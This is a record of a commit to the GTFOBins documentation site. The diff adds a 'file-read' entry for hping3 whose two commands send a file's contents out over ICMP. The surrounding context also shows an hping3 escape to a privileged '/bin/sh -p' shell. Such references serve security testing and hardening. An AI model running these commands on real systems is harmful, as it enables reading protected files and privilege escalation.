

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/hping3.md, in a window 1280 px wide. Shown: the whole page at 88% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Fix file-read with hping3

```diff
--- a/_gtfobins/hping3.md
+++ b/_gtfobins/hping3.md
@@ -8,6 +8,11 @@ functions:
     - code: |
         ./hping3
         /bin/sh -p
+  file-read:
+    - description: It is possible to send specific file contents if hping3 has sufficient permission.
+    - code: |
+        hping3 --icmp 127.0.0.1 --listen --signature --safe
+        hping3 --icmp 127.0.0.1 --d 100 --c 2 --sign signature --file ./file.txt
   sudo:
     - code: |
         sudo hping3
```
